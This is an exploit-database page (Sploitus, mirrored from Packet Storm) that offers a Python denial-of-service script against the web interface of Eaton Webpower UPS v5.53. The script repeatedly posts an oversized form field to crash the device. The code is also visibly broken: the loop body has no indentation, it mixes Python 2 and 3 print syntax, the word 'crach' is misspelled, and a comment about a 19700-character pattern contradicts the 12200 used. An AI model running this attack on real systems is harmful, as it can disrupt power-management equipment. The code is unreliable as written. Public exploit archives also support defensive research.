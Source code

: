 ```yaml
---
title: Webpower UPS 5.53 Denial Of Service exploit
url: https://sploitus.com/exploit?id=PACKETSTORM:171306&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-03-10
fetch_date: 2025-10-04T09:04:20.584294
---
```


# Webpower UPS 5.53 Denial Of Service exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Webpower UPS 5.53 Denial Of Service

2023-03-09 | CVSS 7.4

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=PACKETSTORM:171306
# Exploit Title: Webpower UPS v5.53 HTTP Denial of Service
# Date: 2023-03-09
# Exploit Author: Yehia Elghaly
# Vendor Homepage: https://www.eaton.com/ae/en-gb.html
# Software Link: https://www.eaton.com/ae/en-gb.html
# Version: Revision v5.53
# Tested on: WebPower UPS
# CVE: N/A
#!/usr/bin/env python
# Webpower UPS v5.53 HTTP Denial of Service.
# Discovered BY (Yehia Elghaly)
import requests

url = 'IP_Address'
data = {'Long_string' : 'a' * 12200}# 19700-character pattern

for i in range (16):
response = requests.post(url, data=data)
print("Response {}: {}".format(i+1, response.status_code))
print "crach"
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)